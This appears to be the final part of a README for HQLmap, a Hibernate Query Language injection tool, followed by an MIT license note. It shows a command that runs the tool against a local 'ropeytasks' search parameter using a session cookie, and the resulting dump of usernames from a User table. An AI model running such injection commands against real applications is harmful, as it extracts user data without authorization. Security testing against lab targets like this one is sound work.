 
```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=83C59DCB04A6DC954E4E1EEC2BB36EF6" --T=User --C=username --dump
```

And the output :

```
[!] Table User has been found.
[!] Column Username has been found in table User
[User]
  [username]
     - bob
     - alice
     - admin
```

### Conclusion (& License)
Feel free to give feedbacks and ask for new features.  

Project released under MIT license. 

